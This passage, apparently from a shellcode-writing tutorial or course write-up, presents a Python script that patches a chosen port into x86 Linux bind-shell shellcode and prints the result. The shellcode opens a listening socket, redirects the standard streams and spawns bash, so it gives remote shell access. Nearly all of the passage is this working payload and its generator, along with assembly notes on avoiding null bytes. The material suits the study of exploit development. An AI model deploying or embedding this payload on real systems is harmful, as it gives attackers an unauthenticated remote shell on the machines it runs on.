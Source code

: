 The next task was to make the port the shell uses easily modifiable. This seemed more straightforward, and I wrote a python script to accept port numbers and spit out the fixed shellcode:
``` python
#!/usr/bin/env python
import sys

if len(sys.argv) < 2:
    print("[-] Provide a port > 256")
    sys.exit()
else:
    if int(sys.argv[1]) <= 256:
        print("[-] Port needs to be greater than 256 to guarantee sockaddr struct size is accurate and avoid null bytes.\n")
        print("If you require a lower port, consider changing the instructions in bind from:")
        print("\tpush ecx\n\tpush word 0x5C11\n\tpush word 0x2\n")
        print("to:")
        print("\tpush ecx\n\tsub esp, 2  ; stack alignment\n\tmov byte [esp], cl  ; null\n\tmov byte [esp], 0x65  ; port 100\n\tpush word 0x2\n")
        sys.exit()

    lport = int(sys.argv[1])

def fixPort(lport):
    p = hex(lport)[2:]
    psize = len(str(p))
    if psize == 1 or psize == 3:
        p = "0" + p

    psize = len(str(p))

    if psize == 2:
        fport = '\\x' + str(p)[0:2]
    else:
        fport = '\\x' + str(p)[0:2] + '\\x' + str(p)[2:4]

    if "\\x00" in fport:
        print("[!] Port conversion contains a null byte, I'm lazy, so choose another port maybe?")
        sys.exit()
    else:
        return fport

port = fixPort(lport)

print("[+] Fixed port: " + port)
shellcode = ""
shellcode += "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x51\\x6a\\x01\\x6a"
shellcode += "\\x02\\x89\\xe1\\xb0\\x66\\xb3\\x01\\xcd\\x80\\x89"
shellcode += "\\xc6\\xb0\\x66\\xb3\\x02\\x31\\xc9\\x51\\x66\\x68"
shellcode += port
shellcode += "\\x66\\x6a\\x02\\x89\\xe7\\x6a\\x10\\x57"
shellcode += "\\x56\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x04\\x6a"
shellcode += "\\x05\\x56\\x89\\xe1\\xcd\\x80\\xfe\\xc3\\xb0\\x66"
shellcode += "\\x31\\xd2\\x52\\x52\\x56\\x89\\xe1\\xcd\\x80\\x93"
shellcode += "\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49\\x79"
shellcode += "\\xf9\\x31\\xc0\\x50\\x68\\x62\\x61\\x73\\x68\\x68"
shellcode += "\\x62\\x69\\x6e\\x2f\\x68\\x2f\\x2f\\x2f\\x2f\\x89"
shellcode += "\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd"
shellcode += "\\x80"


print("")
print("[+] Shellcode:\n" + shellcode)
```
